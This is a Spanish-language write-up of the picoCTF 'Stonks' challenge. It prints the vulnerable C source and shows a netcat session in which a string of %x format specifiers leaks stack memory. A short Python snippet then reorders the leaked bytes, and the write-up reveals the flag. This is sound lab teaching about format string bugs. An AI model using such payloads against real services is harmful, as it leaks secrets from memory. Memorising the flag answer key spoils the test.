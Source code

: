 ## Descripción
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c) `nc mercury.picoctf.net 27912`

## Pistas 
Okay, maybe I'd believe you if you find my API key. 

## Solución
- Analizamos el código proporcionado:
```
┌──(kali㉿kali)-[~]
└─$ cat vuln.c  
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
        int shares;
        char symbol[MAX_SYM_LEN + 1];
        struct Stonks *next;
} Stonk;

typedef struct Portfolios {
        int money;
        Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
        if (!p) {
                return 1;
        }
        printf("\nPortfolio as of ");
        fflush(stdout);
        system("date"); // TODO: implement this in C
        fflush(stdout);

        printf("\n\n");
        Stonk *head = p->head;
        if (!head) {
                printf("You don't own any stonks!\n");
        }
        while (head) {
                printf("%d shares of %s\n", head->shares, head->symbol);
                head = head->next;
        }
        return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
        if (shares < 1) {
                return NULL;
        }
        Stonk *stonk = malloc(sizeof(Stonk));
        stonk->shares = shares;

        int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
        for (int i = 0; i <= MAX_SYM_LEN; i++) {
                if (i < AI_symbol_len) {
                        stonk->symbol[i] = 'A' + (rand() % 26);
                } else {
                        stonk->symbol[i] = '\0';
                }
        }

        stonk->next = NULL;

        return stonk;
}

int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);

        int money = p->money;
        int shares = 0;
        Stonk *temp = NULL;
        printf("Using patented AI algorithms to buy stonks\n");
        while (money > 0) {
                shares = (rand() % money) + 1;
                temp = pick_symbol_with_AI(shares);
                temp->next = p->head;
                p->head = temp;
                money -= shares;
        }
        printf("Stonks chosen\n");

        // TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);

        // TODO: Actually use key to interact with API

        view_portfolio(p);

        return 0;
}

Portfolio *initialize_portfolio() {
        Portfolio *p = malloc(sizeof(Portfolio));
        p->money = (rand() % 2018) + 1;
        p->head = NULL;
        return p;
}

void free_portfolio(Portfolio *p) {
        Stonk *current = p->head;
        Stonk *next = NULL;
        while (current) {
                next = current->next;
                free(current);
                current = next;
        }
        free(p);
}

int main(int argc, char *argv[])
{
        setbuf(stdout, NULL);
        srand(time(NULL));
        Portfolio *p = initialize_portfolio();
        if (!p) {
                printf("Memory failure\n");
                exit(1);
        }

        int resp = 0;

        printf("Welcome back to the trading app!\n\n");
        printf("What would you like to do?\n");
        printf("1) Buy some stonks!\n");
        printf("2) View my portfolio\n");
        scanf("%d", &resp);

        if (resp == 1) {
                buy_stonks(p);
        } else if (resp == 2) {
                view_portfolio(p);
        }

        free_portfolio(p);
        printf("Goodbye!\n");

        exit(0);
}
                                   
```

- Una vez más, se trata de una Format String Vulnerability. Tenemos el printf(user_buf); pero no hay nada en dobles comillas, lo que quiere decir que podemos especificar una cadena de formato.
- Introducimos %x varias veces para recorrer la pila e ir imprimiendo los valores, lo cual es muy conveniente, ya que ahí se encuentra la bandera.

```
                                                                                                 
┌──(kali㉿kali)-[~]
└─$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
93dc390804b00080489c3f7f74d80ffffffff193da160f7f82110f7f74dc7093db180293dc37093dc3906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3266633130613130ff86007df7fafaf8f7f82440ed0fb10010f7e11ce9f7f830c0f7f745c0f7f74000ff8687f8f7e0268df7f745c08048ecaff8688040f7f96f09804b000f7f74000f7f74e20ff868838f7f9cd50f7f75890ed0fb100f7f74000804b000ff8688388048c8693da160ff868824ff8688388048be9f7f743fc0ff8688ecff8688e4
Portfolio as of Tue May 23 18:51:16 UTC 2023


2 shares of U
15 shares of TQCT
5 shares of PH
1 shares of Z
60 shares of N
Goodbye!
```

- Copiamos el token y lo pasamos a un convertidor de hexadecimal a ASCII y tenemos como resultado lo siguiente:
```
Ü9°H?tØÿÿÿñÚtÜpÛÜ7	=Ãocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿ}÷úúø÷ø$@í±÷áé÷ø0À÷÷EÀ÷÷@ÿø÷à&÷÷EÀHì¯øh@÷ùo	KttâøhÕuÐût°ÿ8HÈi=¡`ÿ$ÿ8H¾t?Àÿìÿä
```
- La bandera ya está ahí, solamente que se encuentra desordenada. 
```
┌──(kali㉿kali)-[~]
└─$ python3       
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> s='ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿ}'
>>> for x in range(0,len(s),4):
...     print(s[x+3]+s[x+2]+s[x+1]+s[x],end='')
... 
Traceback (most recent call last):
  File "<stdin>", line 2, in <module>
IndexError: string index out of range
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0>>> 
```

## Bandera
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}

## Notas Adicionales
**Format String Attack** es un ataque cibernético, el cual se produce cuando los datos enviados a través de una cadena de entrada de caracteres son evaluados como un comando por la aplicación o servidor al cual van dirigidos. De esta forma, el atacante podría ejecutar [código](https://es.wikipedia.org/wiki/C%C3%B3digo_fuente "Código fuente"), leer la pila o causar un error de segmentación en la aplicación en ejecución, lo que provocaría nuevos comportamientos que podrían comprometer la seguridad o la estabilidad del sistema al que van dirigidos.

## Referencias
https://es.wikipedia.org/wiki/Format_String_Attack

https://www.rapidtables.com/convert/number/hex-to-ascii.html